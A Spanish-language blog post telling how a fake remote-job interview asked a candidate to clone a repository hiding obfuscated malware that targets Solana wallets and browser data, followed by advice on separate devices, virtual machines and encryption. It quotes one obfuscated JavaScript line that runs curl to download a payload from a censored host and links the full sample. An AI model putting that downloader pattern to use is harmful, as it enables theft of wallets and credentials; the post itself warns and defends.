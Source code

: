 ```yaml
---
aliases:
- /es/como-una-entrevista-laboral-se-convierte-en-un-robo-de-criptomonedas/
authors:
- Eduardo Zepeda
categories:
- opinion
coverImage: images/tech-interview-hacking-obfuscated-code.jpg
date: '2024-12-14T22:24:18-06:00'
description: Esta es la historia de un tipo que estuvo a punto de perder todo su criptomonedas
  y probablemente ser hackeado en una entrevista de trabajo para un puesto remoto
keyword: ''
keywords:
- crypto
- interview
- github
- hacking
- docker
title: Como Una Entrevista Laboral Se Convierte En Un Robo De Criptomonedas
---
```


El otro día estaba navegando en esa máquina de propaganda política de Elon Musk, también conocida como X, y me topé con esta joya de la desvergüenza humana, un entrevistador que estuvo a punto de hackear a uno de sus postulantes.

## Ejecución de malware en las entrevistas laborales

La historia es esta: estás necesitado de trabajo, te preparas para la entrevista, y de repente el reclutador te pide clonar [una librería de Github]({{< ref path="/posts/git/el-problema-de-usar-github-para-evaluar-a-desarrolladores/index.md" lang="es" >}}) para que encuentres los errores en el código, una entrevista protocolaria para desarrollo de software, todo normal hasta este punto. Por supuesto que tú, necesitado de un buen laburo, decides seguir con el proceso.

Bueno, pues este chico fue lo suficientemente avispado como para leer el código a ejecutar antes de ejecutar ciegamente su voluminosa librería de *node_modules*. ¿Y con que se encontró? un suculento y delicioso código minimizado, ofuscado y con tintes de poner tu ordenador a minar criptomonedas. 

Nuestro amigo era como Jorge, curioso, así que embelleció el código y encontró:

- Lineas que parecen buscar y leer el contenido de carteras de Solana.
- Scripts que escanean directorios de navegadores.  
- [Llamadas a una API](/es/software-architecture/caracteristicas-basicas-de-una-api-rest/) directo a una dirección IP, sin dominio, algunos sin respuesta y otros que descargan scripts ofuscados en Python (supongo que le da un seguimiento al proceso de hackeo instalando un backdoor o algún RAT).


Si quieres ~~infectarte~~ leer el código visita [el repositorio de github](https://gist.github.com/jbrit/9a6525d086411a0fcffea202f368e780#file-initial-obfuscated-iife-js#?), no me hago responsable de nada.

``` javascript
_0x42b722("curl -Lo \"" + _0x157519 + "\" \"" + "http://<censored>/pdown" + "\"", (_0x204dd7, _0x6e1c16, _0x52b515) => {
  if (_0x204dd7) {
    _0x517b73 = 0;
    return void _0x70af27();
  })
```

{{<ad>}}

## ¿Cómo evitamos caer en estas trampas?

No planeo quedarme solo en el drama. Esto se trata de ofrecer algunas soluciones prácticas para que los script kiddies no te vean la cara de novato en una falsa entrevista de trabajo:

### **Usa un dispositivo diferente**

La opción más cómoda, pero también la más cara, mantén tus dispositivos separados, usa un ordenador para trabajo y pruebas técnicas y otro para tus asuntos personales, criptomonedas incluidas. 

### **Lee el código, siempre que sea posible**

¿El reclutador te manda un script? Examínalo con cuidado antes de ejecutarlo. Sí, ya sé, a veces el código es demasiado extenso o está ofuscado, pero si tienes algo de experiencia, puedes pasar tus ojos rápidamente por la pantalla y detectar las red flags. Claro, tampoco puedes perder toda la tarde con esto si estás en una entrevista real o valoras tu tiempo.

### **Usa una máquina virtual**

Monta una máquina virtual, ya sea Virtual Box o Gnome Boxes, en Linux, o un [contenedor de Docker completamente aislado](/es/docker/tutorial-de-comandos-basicos-de-docker/), si no te molesta no contar con una interfaz gráfica. 

Otra opción disponible, y mi favorita: una live USB con la distribución de tu elección (Debian, Fedora, o lo que quieras).

De esa manera, lo peor que puede pasar es que infecten tu máquina virtual y no tu equipo real con toda tu información personal. ¡Solo ten cuidado los volúmenes compartidos! Si montas tu disco duro en la VM, estás frito.

### **Cifra tu información sensible**

Aquí entra el clásico consejo de los veteranos de la vieja escuela de TI: **cifra tus datos importantes**. Si alguien logra acceder a tus colección de memes de gatitos, cífralos. 

No planeo ofrecer detalles porque ya hay demasiado en internet, Googlea sobre GPG o lee el manual directamente, si no estás tan familiarizado con la terminal o no te interesa, hay herramientas como Kleopatra, que vuelven más intuitivo el uso de la criptogorafía.

## No ejecutes código arbitrario en tu máquina personal

¿Tienes mejores ideas para protegernos de estas prácticas? Suelta tus consejos en redes sociales y etiquétame. Estoy ansioso de agregar tus sugerencias al post. 

Si quieres leer la historia completa dale una visita al blog de Elon... digo X. Editado: el propietario de la cuenta ha cambiado su configuración de privacidad, así que ahora no puedes ver la conversación completa.